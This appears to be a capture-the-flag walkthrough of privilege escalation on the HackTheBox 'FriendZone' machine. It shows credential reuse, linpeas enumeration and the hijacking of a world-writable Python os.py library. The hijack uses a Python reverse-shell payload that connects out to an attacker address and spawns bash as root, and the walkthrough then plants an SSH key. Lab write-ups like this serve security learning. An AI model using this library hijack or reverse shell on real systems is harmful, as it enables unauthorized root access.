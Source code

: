 # Priv Esc
- Make it an interactive shell
 ### Enumeration
 
 - We are currently www-data
 -  We get database creds 
 ```bash
for development process this is the mysql creds for user friend

db_user=friend

db_pass=Agpyu12!0.213$

db_name=FZ
 ```
 - But mysql port isn't listening on the box right now (port 3306).
 -  We can also try login as friend using su friend and using the given password
 -  In the home directory we can read the user flag.
 -  Run `sudo -l` : `Sorry, user friend may not run sudo on FriendZone.`

### Priv Esc to root
 -  Enumerating further in /opt, we can see a reporter.py
 ```bash
friend@FriendZone:~$ cd /opt/server_admin/
friend@FriendZone:/opt/server_admin$ ls
reporter.py
friend@FriendZone:/opt/server_admin$ cat reporter.py 
#!/usr/bin/python

import os

to_address = "admin1@friendzone.com"
from_address = "admin2@friendzone.com"

print "[+] Trying to send email to %s"%to_address

#command = ''' mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"'''

#os.system(command)

# I need to edit the script later
# Sam ~ python developer

 ```
 - But this file isn't updating or writing anywhere.
 - Runnig linpeas. Interesting result:
 ```bash
 [+] Interesting writable files owned by me or writable by everyone (not in Home) (max 500)                                                                            
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files  
...[snip]...

/usr/lib/python2.7                                                                                                       
/usr/lib/python2.7/os.py
/usr/lib/python2.7/os.pyc                    

...[snip]...

 ```
 - This is because the python script is importing os module. Thus we can change os module to get a reverse shell as root.
 ```python
import socket,subprocess,os                                                       
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)                                 
s.connect(("10.10.14.5",9002))                                                     
dup2(s.fileno(),0)                                                                 
dup2(s.fileno(),1)                                                                 
dup2(s.fileno(),2)                                                                 
import pty                                                                         
pty.spawn("/bin/bash")                        
 ```
 - Adding a revshell script to os module and got the rev shell
 ![[Pasted image 20210329183250.png]]
 - For sanity sake, just add your ssh pub key to root if you want to try anything.
 ```bash
ssh -i friendzone root@10.10.10.123
Welcome to Ubuntu 18.04.1 LTS (GNU/Linux 4.15.0-36-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Thu Jan 24 01:12:41 2019
root@FriendZone:~# ls
certs  root.txt
root@FriendZone:~# ls
certs  root.txt
root@FriendZone:~# ^C
root@FriendZone:~# logout
Connection to 10.10.10.123 closed.

 ```